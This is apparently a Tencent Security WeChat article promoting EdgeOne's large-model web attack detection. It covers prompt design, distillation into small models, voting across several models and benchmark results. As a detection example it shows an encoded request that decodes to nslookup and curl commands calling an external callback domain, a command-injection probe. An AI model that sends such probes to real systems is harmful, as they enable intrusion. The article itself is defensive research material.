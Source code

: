 #  当漏洞攻击遇上腾讯混元超能力：EdgeOne 的 Web 安全赛博决斗   
 腾讯安全   2025-04-14 09:44  
  
《腾讯云2024年DDoS与应用安全威胁趋势报告》显示，利用漏洞和应用弱点的攻击手段愈发多样化和复杂化，2024年高危漏洞攻击总量超过 17亿次，面对这一严峻挑战，我们应该如何应对？接下来将为您讲解我们的最新尝试——基于大模型的漏洞识别能力，您可以通过托管规则-深度分析功能，率先体验EdgeOne对漏洞的识别能力。  
  
  
网络安全新威胁  
  
漏洞攻击的双重挑战  
  
  
  
当前，网络安全面临着前所未有的挑战，尤其是在漏洞攻击频发的背景下。想象一下，在某个电商大促期间，黑客通过巧妙的SQL语句悄无声息地盗取用户数据，或者利用恶意脚本伪装成正常请求，在海量合法流量中发动攻击，随时可能给企业带来数据泄露和业务中断的风险。  
  
  
为了应对这些威胁，EdgeOne的Web流量攻击检测系统能够有效过滤和拦截恶意漏洞攻击流量，避免入侵和数据泄露风险。然而，随着攻击手段的不断升级，传统的防御体系面临着漏报和误报的双重困境：  
  
- 专家规则虽然能快速识别已知攻击，但对新型攻击束手无策；  
  
- 语义分析虽然准确性高，但在处理海量请求时速度较慢；  
  
- 传统机器学习虽然具备自适应能力，但对数据的依赖使其在实际应用中受到限制。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS86VZenSk0neYVicIIRWkwEicQITJdMPQDCc2R4Wmkku8jc17GOf48usog/640?wx_fmt=png&from=appmsg "")  
  
  
在这样的背景下，如何提高检测的准确性成为了我们关注的焦点。大模型的出现为这一问题提供了新的解决方案。  
  
  
大模型在流量分析中的应用  
  
从基础知识到深度分析  
  
  
  
大模型通过预训练学习安全基础知识、HTTP流量中的代码逻辑、协议行为与攻击模式，构建多层知识关联分析，真正理解流量行为，提高检测准确性。例如，解析SQL注入时不仅识别SELECT FROM或UNION SELECT等关键词，还能判断其是否构成闭合查询、是否破坏业务逻辑。  
  
  
从下面两个例子就可以看到大模型具备对流量内容进行深度分析和理解的能力，实现从“语法合规性”到“意图危害性”理解的跃迁。  
  
  
 场景1：真假美猴王之辩，正常sql语句查询识别，避免传统静态规则匹配易误报问题。  
  
  
 传统检测：看到SQL关键词立即报警  
  
  
 LLM 侦探视角：  
  
  
 1️⃣检查请求上下文：理解语义为合法业务查询接口  
  
  
2️⃣ 行为模式分析：没有出现特殊字符构造注入  
  
  
 ⚠️ 结论：这是业务后台的正常商品查询！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8Hk6OoLzjRc00rRLxlOLwp0sGZd9asrV7libbKUacticm47Sxy5lY3JvA/640?wx_fmt=png&from=appmsg "")  
  
  
 场景2：密码本的秘密，对加密内容自动解密分析，并进行意图分析，准确识别到攻击。  
  
  
 加密流量：  
  
  
 keyword=fChuc2xvb2t1cCR7SUZTfS1xJHtJRIN9Y25hbWUke0IGU31oaXRnaXFtZnZnc3drZDc4NjQu...  
  
  
 LLM 侦探破案过程：  
  
  
 🔍第一步：发现加密内容，解码发现命令组合  
  
  
 nslookup cname ***********.bxss.me  
  
  
 curl ***********.bxss.me  
  
  
 💡关键洞察：域名解析指向恶意IP，curl指令发送请求  
  
  
 🚨 结论：这是一起恶意攻击！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8ibyWyibJ8E1hHG4iaX80pmWdEd4j1gO1ATtxwI1wzveVXiaaeOrVgtKzqg/640?wx_fmt=png&from=appmsg "")  
  
  
大模型优化与多模型协作  
  
提升网络攻击检测的  
  
效率与准确性  
  
  
  
那如何将大模型应用到EdgeOne中呢？接下来将介绍我们在落地实践中遇到的问题和解决思路。  
  
  
思维链CoT训练法：借鉴CoT的prompt调优提升攻击识别能力   
  
  
由于http流量攻击内容可能出现在流量中各个字段内，并进行编码加密等操作隐藏攻击，简单的prompt指令，模型可能分析不足导致漏检。  
  
  
在prompt调优过程中，借鉴CoT思维链思路，根据现网攻击流量特征，给出判定一个请求是否是Web攻击的分析过程，引导大模型按照步骤逐步分析，最终确认结果，就像福尔摩斯通过案件细节一步步推理得到最终真相！  
  
  
场景CASE：攻击者试图探测源站是否存在源码压缩包的攻击行为识别  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8gTkvfOD872sJjKXLmpP19PEp4zNLbV95xznDbblSluGlcpzKicomCkw/640?wx_fmt=png&from=appmsg "")  
  
  
大模型瘦身计划：微调小参数模型提升检测效率  
  
  
随着EdgeOne客户流量规模激增，大参数模型因计算复杂度高、推理延迟大，难以满足高效检测需求。通过领域知识蒸馏，可将大模型能力迁移至小参数模型。  
  
  
小参数模型所需的资源成本更低，处理性能更快。但是通过对比评测，小参数模型在攻击样本的检出和白样本识别准确性均弱于大参数模型，通过蒸馏大参数模型的攻击判定数据，微调小参数模型，在样本集评测上达到接近大参数模型效果。  
  
- 数据：7000条（包括多种攻击类型样本和白样本）  
  
- 基座模型：hunyuan-3b\qwen2.5-3b\llama3.2-3b  
  
- 微调方式：lora  
  
蒸馏大模型的微调数据样例：（带有分析过程内容）  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS82IrxYwKwecOib8jZJibKphgPBcOmtCGg8XSee8RZR1FFzUzRY5k4Njjg/640?wx_fmt=png&from=appmsg "")  
  
  
LLM侦探联盟：多模型联合投票  
  
  
这里同时进行了多个基座小模型的微调，包括hunyuan-3b，qwen2.5-3b，llama3.2-3b小参数模型，在测试样本集攻击检出率和白样本识别率方面，各有优劣，通过分析差异样本，腾讯混元模型在5个攻击类型场景中的3个表现较优，2个可以和其他模型互补，进一步设计3个小模型联合投票检测方案，以提升整体检测准确率。  
  
  
检测逻辑：超过2个模型判为攻击即攻击，超过2个模型判为正常即正常。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8aWp5uCmHvZZKBjKey21hfhySkd2OibKQbJ2cQpQBicC2Da1uyxnaPR6A/640?wx_fmt=png&from=appmsg "")  
  
  
➢在样本集的评测效果如下：  
  
  
经过多模型取长补短，整体攻击检测攻击准确率较单一模型有所提升，同时也达到接近大参数模型效果。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8rJHibDXicdhwXgNZ1CWRodHQf8o4hMK9Xibp0vA5iaubUXYtZBRBHiak4RA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8oyOxx4K641eiaNLNq8vhN36qun6cdPJITNibwic7YQS5icU4UVBrnmU0Zw/640?wx_fmt=png&from=appmsg "")  
  
  
➢第三方工具blazehttp评测如下：  
  
  
blazehttp（https://github.com/chaitin/blazehttp）为业界较知名的公开的第三方测评Web流量攻击检测效果工具，总样本33000+条，涵盖各类攻击和正常样本。EdgeOne的漏洞防护严格模式准确率超99%，误报率仅为0.4%。  
  
  
网络安全的未来展望  
  
从防御到智御  
  
  
  
数字孪生沙盒  
  
  
 在真实环境之外构建数字镜像，AI在这里可以：  
  
  
 ✅放心测试新规则  
  
  
 ✅模拟攻击演练  
  
  
 ✅验证模型可靠性  
  
  
 在EdgeOne漏洞防护处于观察模式阶段的域名命中规则的请求进行离线大模型判定，并提前自动剔除不适合业务的策略，达到自适应的效果，就像拥有一支永远不知疲倦的安全特种部队！  
  
  
0day猎杀计划  
  
  
 结合RAG技术，实时关联威胁情报与漏洞库，流量特征识别0day攻击。  
  
  
 流量特征 → 语义解析 → 威胁知识图谱 → 全球攻击样本库 → 自动生成防护策略  
  
  
 当大模型遇上网络安全，我们不仅造出了更聪明的检测工具，更重新定义了防御的边界。这场持续升级的攻防战，正在见证 AI 如何从旁观者变成守护者的蜕变历程。在你安全浏览网页的背后，或许正有看不见的 AI 侦探在为你守护安全！🛡️  
  
  
 EdgeOne标准版抢先体验，专属活动低至 4.5 折（1710 元/月起）（点击文末「阅读原文」查看更多活动信息），您可以通过托管规则-深度分析功能，率先体验EdgeOne对漏洞的识别能力。而基于大模型的漏洞识别能力，正在紧锣密鼓地规划与开发中，其将为漏洞检测领域带来革新性变化，敬请各位期待！  
  
  
 更多托管规则-深度分析信息请参考产品文档：https://cloud.tencent.com/document/product/1552/97403?from=eoweb  
  
  
 扫码可直接查看完整报告！后续我们将针对开发者和中小型企业推出两期更详细的安全报告解读，避免错失良机，建议扫码加入社群，获取最新动态👇  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OJbMFMZkdelv3p055olaj2gEf5YwaQS8ibM2UXWIdFvszmvcjrVaxhuUJbFpfPCtzHvwgmf4jJ27UCuHokmKs3A/640?wx_fmt=png&from=appmsg "")  
  
  
如果您想要进一步了解或使用 EdgeOne 相关能力，欢迎扫描下方二维码添加 EdgeOne 小助手，我们将安排产研同学专门跟进您的需求。或点击「阅读原文」进入EdgeOne官网了解更多。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/qgibMaOglThJuXbW5YeK4TDIqPgXvsicpNB4F4KRHl2wDiaBib8FoiaoYZOUc6J7AuOfXLnIMicx8hyiajelNviaX2UViaA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
- END -  
  
  
**构建数字安全免疫力，守护企业生命线**  
  
  
**推荐阅读**  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg5OTE4NTczMQ==&mid=2247526481&idx=1&sn=4c3df6a097139dcd269f02605c5288bf&scene=21#wechat_redirect)  
  
**二进制与LLM的碰撞：反混淆技术的新尝试**  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg5OTE4NTczMQ==&mid=2247526517&idx=1&sn=1d00946ea3bf689b279f9318670cb530&scene=21#wechat_redirect)  
  
**2024漏洞风险启示录：在攻防的螺旋中寻找「治愈」之道**  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg5OTE4NTczMQ==&mid=2247526425&idx=1&sn=720bc0dc67c58939f2189e19ffb5d9b4&scene=21#wechat_redirect)  
  
**DeepSeek爆火之下暗潮汹涌**  
  
  
  
  
